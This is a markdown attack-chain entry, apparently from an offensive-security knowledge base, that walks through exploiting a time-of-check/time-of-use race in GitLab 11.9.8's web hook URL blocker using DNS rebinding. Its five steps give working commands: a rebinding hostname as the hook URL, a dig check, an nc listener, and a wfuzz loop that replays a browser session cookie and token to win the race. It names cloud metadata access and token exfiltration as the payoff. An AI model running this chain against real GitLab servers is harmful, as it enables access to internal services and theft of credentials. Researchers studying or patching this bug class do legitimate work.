

---
tags:
  - ssrf
  - toc2u
  - dns-rebinding
  - gitlab
  - webhook
type: attack_chain
tools:
  - '[[tools/dig]]'
  - '[[tools/nc]]'
  - '[[tools/wfuzz]]'
  - '[[tools/researchersservers]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands:
  - '[[commands/dig-gitlabextssrf]]'
  - '[[commands/nc-listen-9999]]'
  - '[[commands/wfuzz-webhook-test]]'
  - '[[commands/gitlab-env-info]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Create-GitLab-Repository]]'
  - '[[procedures/Add-Commit-to-Repository]]'
  - '[[procedures/Create-Web-Hook-with-Malicious-URL]]'
  - '[[procedures/Start-TCP-Listener-on-GitLab-Server]]'
  - '[[procedures/Trigger-Web-Hook-Tests-with-Wfuzz]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploits a Time-of-Check to Time-of-Use vulnerability in GitLab's URL blocker
  to achieve full SSRF through web hooks, allowing arbitrary HTTP requests to
  internal hosts.
skill_level: intermediate
impact_level: high
id: 6bfc7fa6-0d32-4e12-a642-a5e7356d2ee0
created_at: '2025-12-14T03:46:09.482Z'
updated_at: '2025-12-14T03:46:09.482Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# GitLab SSRF via ToCToU in Web Hook URL Blocker

Multi-stage attack chain demonstrating exploitation of a Time-of-Check to Time-of-Use (ToCToU) vulnerability in GitLab's URL blocker for web hooks, enabling authenticated users to perform Server-Side Request Forgery (SSRF) to arbitrary internal hosts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/dig]]
- [[tools/nc]]
- [[tools/wfuzz]]
- [[tools/researchersservers]]

### Target Environment

- GitLab 11.9.8-ee or vulnerable versions on Linux (Ubuntu 18.04)
- Services: PostgreSQL 9.6.11, Redis 3.2.12
- Ports: 9999/tcp for listener
- Tech stack: Ruby 2.5.3, HTTParty

### Initial Access Requirements

- Authenticated GitLab user account
- Access to create repositories and web hooks
- Ability to SSH or access the GitLab server for listener setup
- Custom DNS server configured for DNS rebinding

## Detailed Attack Procedures

### Step 1: Repository Creation
procedure: [[procedures/Create-GitLab-Repository]]

**Objective**: Establish a repository to serve as the base for webhook integration and trigger events.

**Instructions**: Log in to GitLab and create a new repository via the web interface or Git CLI. This provides the foundation for subsequent webhook setup.

**Expected Output**: New repository created with default settings.

**Success Indicators**:
- Repository visible in user dashboard
- Git operations (push/pull) functional

### Step 2: Add Commit to Repository
procedure: [[procedures/Add-Commit-to-Repository]]

**Objective**: Introduce a commit to enable webhook triggering on push events.

**Instructions**: Use Git to add a file and commit it to the repository, simulating a push event that can activate the webhook.

**Expected Output**: Commit history updated with new entry.

**Success Indicators**:
- Commit appears in repository logs
- Push event ready for webhook testing

### Step 3: Create Web Hook with Malicious URL
procedure: [[procedures/Create-Web-Hook-with-Malicious-URL]]

**Objective**: Configure a webhook pointing to a domain controlled for DNS rebinding, setting up the ToCToU bypass.

**Instructions**: In repository settings, add a new webhook with URL http://gitlabextssrf.webhooks.pw:9999/. Verify DNS resolution using [[commands/dig-gitlabextssrf]] to confirm alternating IPs.

```bash
dig +noall +answer gitlabextssrf.webhooks.pw
```

**Expected Output**: Webhook saved; DNS query shows alternating 198.211.125.160 (allowed) and 127.0.0.1 (blocked) with 0 TTL.

**Success Indicators**:
- Webhook listed in settings
- Initial test may fail with 500 if blocked IP resolves first

### Step 4: Start TCP Listener on GitLab Server
procedure: [[procedures/Start-TCP-Listener-on-GitLab-Server]]

**Objective**: Deploy a listener to capture SSRF requests once the race is exploited.

**Instructions**: SSH into the GitLab server and run [[commands/nc-listen-9999]] to listen on port 9999.

```bash
nc -vvn -l -p 9999
```

**Expected Output**: Listener active, awaiting connections.

**Success Indicators**:
- No port conflicts
- Verbose output shows listening state

### Step 5: Trigger Web Hook Tests with Wfuzz
procedure: [[procedures/Trigger-Web-Hook-Tests-with-Wfuzz]]

**Objective**: Flood the webhook test endpoint with parallel requests to exploit the DNS resolution race, achieving SSRF.

**Instructions**: Extract session ID and authenticity token from browser. Run [[commands/wfuzz-webhook-test]] to perform 1000 iterations, triggering multiple DNS checks.

```bash
./wfuzz -X POST -b "_gitlab_session=<session_id>;" -d "_method=post&authenticity_token=<token>" -z range,0-1000 "https://<domain>/<user>/<repo>/hooks/<hook_id>/test?trigger=push_events&test=FUZZ"
```

Gather environment info with [[commands/gitlab-env-info]] for reproduction.

```bash
gitlab-rake gitlab:env:info
```

**Expected Output**: Multiple requests; eventual connection to listener from GitLab server to localhost:9999.

**Success Indicators**:
- SSRF request captured in nc output
- Response from internal host (e.g., metadata service)

## Attack Chain Summary

### Key Achievements

1. Bypassed URL validation via ToCToU and DNS rebinding
2. Achieved full SSRF for arbitrary GET/POST to localhost or cloud metadata
3. Enabled potential compromise of internal services or token exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01*
